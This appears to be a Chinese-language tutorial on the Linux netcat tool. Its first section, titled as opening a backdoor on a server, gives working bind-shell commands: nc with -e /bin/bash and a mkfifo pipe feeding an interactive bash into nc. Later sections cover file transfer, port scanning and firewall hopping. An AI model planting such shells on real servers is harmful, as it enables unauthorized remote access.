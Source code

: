 Linux netcat nc<br />`netcat`这个工具，简称`nc`，是Linux上一个非常强大的工具（当然也有windows版本）。由于它能力实在太强，有些公司甚至对他进行了隔离（quarantined）。比如`rename`掉，或者给`000`的权限。因为它很容易可以在服务器上开一个后门（backdoor)，并且及其方便。<br />查看nc命令的位置
```bash
whereis nc
```
![image.png](https://cdn.nlark.com/yuque/0/2020/png/396745/1598927441099-fe2b8b7b-b891-4451-b0a7-76827c907556.png#align=left&display=inline&height=72&originHeight=216&originWidth=3323&size=186040&status=done&style=none&width=1107.6666666666667)<br />使用file命令来看一下它的属性。结果发现它是一个链接文件。
```bash
file /usr/bin/nc
```
![image.png](https://cdn.nlark.com/yuque/0/2020/png/396745/1598927502417-7e33e0f3-a73e-4531-85d4-8b17bc30f724.png#align=left&display=inline&height=108&originHeight=323&originWidth=3323&size=327822&status=done&style=none&width=1107.6666666666667)
<a name="blpJi"></a>
### 1、为服务器开后门
<a name="FrFZP"></a>
#### ①服务端通过nc命令开放端口
下面的命令，将在机器上开放`5879`端口。服务端：
```bash
nc -l -vv -p 5879 -e /bin/bash
```
![image.png](https://cdn.nlark.com/yuque/0/2020/png/396745/1598927602977-365a3bee-935c-413f-a8a7-59226742496d.png#align=left&display=inline&height=119&originHeight=358&originWidth=3323&size=371325&status=done&style=none&width=1107.6666666666667)<br />这个过程叫做反弹shell，远程就可以使用nc命令连接，执行一些操作。
<a name="GZPbu"></a>
#### ②客户端通过nc连接主机
```bash
nc -v 127.0.0.1 5879
```
![image.png](https://cdn.nlark.com/yuque/0/2020/png/396745/1598927720325-adf82631-82b9-40e7-9241-db4cc0d30212.png#align=left&display=inline&height=254&originHeight=762&originWidth=3323&size=864604&status=done&style=none&width=1107.6666666666667)<br />客户端连接成功后，在服务端显示操作日志<br />![image.png](https://cdn.nlark.com/yuque/0/2020/png/396745/1598927826353-d3ba7342-e74c-43b0-8bd2-7fec464ef37c.png#align=left&display=inline&height=198&originHeight=595&originWidth=3323&size=660885&status=done&style=none&width=1107.6666666666667)
<a name="421c9382"></a>
#### ③关闭客户端时服务端一同关闭，使用-k参数可以保持服务端监听
想要服务端继续监听，可以加上参数`-k`。
<a name="OZLKR"></a>
#### ④客户端连接时显示命令执行终端
服务器端，执行下面两个命令，这就构造了一个循环。
```bash
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/bash -i 2>&1 | nc -l  5879 > /tmp/f
```
![image.png](https://cdn.nlark.com/yuque/0/2020/png/396745/1598928194512-f9245d03-cc26-447b-b7f9-8a0cb9a6e639.png#align=left&display=inline&height=72&originHeight=216&originWidth=3323&size=196170&status=done&style=none&width=1107.6666666666667)<br />然后通过客户端连接服务端，会显示命令终端<br />![image.png](https://cdn.nlark.com/yuque/0/2020/png/396745/1598928308877-0724f527-7b31-4234-8721-d13c87646477.png#align=left&display=inline&height=307&originHeight=921&originWidth=3323&size=1106050&status=done&style=none&width=1107.6666666666667)
<a name="5yL6d"></a>
#### ⑤端口扫描

<a name="4E7JI"></a>
### 2、文件和目录传输
<a name="v2vDC"></a>
#### ①服务端开启端口监听并重定向到文件
```bash
nc -l 5879 > file
```
<a name="WPcWe"></a>
#### ②客户端启动连接并使用反向箭头发送文件
```bash
nc -v 192.16.1.54 5879 < redis-5.0.5.tar.gz
```
由于没有使用rsa加密，文件传输的更快了。<br />查看文件的MD5完全匹配
```bash
MD5 (redis-5.0.5.tar.gz) = 224cabf26d622f37528b398762e1578c

md5sum file
224cabf26d622f37528b398762e1578c  file
```
<a name="9nk6O"></a>
#### ③目录的传输
<a name="eeEqn"></a>
##### 客户端将文件夹压缩为文件通过管道传递给nc
nc命令接收了打包的文件
```bash
tar cfz - redis-5.0.5 |  nc -v 192.16.1.54 5879
```
<a name="tvjjW"></a>
##### 服务端接收压缩文件并解压为目录
把nc的输出，使用管道交给tar命令处理。`xfvz`和`cvfz`是一对参数
```bash
nc -l 5879  | tar xfvz -
```
<a name="JtbSK"></a>
### 3、网络连通性检测
<a name="8IfZG"></a>
##### 测试指定端口的连通性
想要判断服务器的tomcat端口是否开启，不需要登陆到服务器上，然后再`ps`一下看一下进程，或者使用`netstat -antl`看一下监听的端口。<br />使用nc就可以了。<br />只需要简单的打上ip和端口，就能知道结果。
```bash
$ nc -vvv baidu.com 443
Connection to baidu.com port 443 [tcp/https] succeeded!
```
<a name="Nrc6x"></a>
##### 通过nc扫描主机端口的开放情况
```bash
nc -vzw 2 192.16.1.54 8888-9999
```
<a name="BwMWx"></a>
### 4、防火墙穿透
比如下面这张图。想要访问`tongariro`的这台机器，但是没有权限的。它只能通过`aoraki`的防火墙访问。同时，`aoraki`也只能接受来自`ruapehu`的请求。<br />![](https://cdn.nlark.com/yuque/0/2020/webp/396745/1598933449085-7ccbf4a3-f781-43d2-8b9d-f4ad4d5b9f01.webp#align=left&display=inline&height=501&originHeight=501&originWidth=566&size=0&status=done&style=none&width=566)<br />通过组合ssh命令可以达到这个效果。
```bash
ssh -A -t ruapehu.example.com ssh -A -t aoraki ssh -A tongariro
```
通过ssh的`ProxyCommand`，可以完成简单的配置。<br />使用下面的命令可以快速打通这个通道。
```bash
ssh -oProxyCommand="ssh host1 nc host2 22" host2
```
<a name="VFlAH"></a>
### 5、其他
<a name="3e1ac"></a>
#### 时间服务器
实现一个简单的时间服务器。web浏览器访问即可获取。
```bash
ncat -lkp 8976 --sh-exec 'echo -ne "HTTP/1.0 200 OK\r\n\r\nThe date is "; date;'
```
![image.png](https://cdn.nlark.com/yuque/0/2020/png/396745/1598933737433-76415904-5dd0-435f-8a93-e8a49ff3be83.png#align=left&display=inline&height=160&originHeight=479&originWidth=1197&size=63127&status=done&style=shadow&width=399)
<a name="txJlj"></a>
#### 远程视频服务
服务端
```bash
arecord -f cd -c 2 | lame -b128 - - | netcat -u your-ip 6881 | mpg123 -
```
客户端
```bash
arecord -f cd -c 2 | lame -b128 - - | netcat -u -l 6881 | mpg123 -****
```

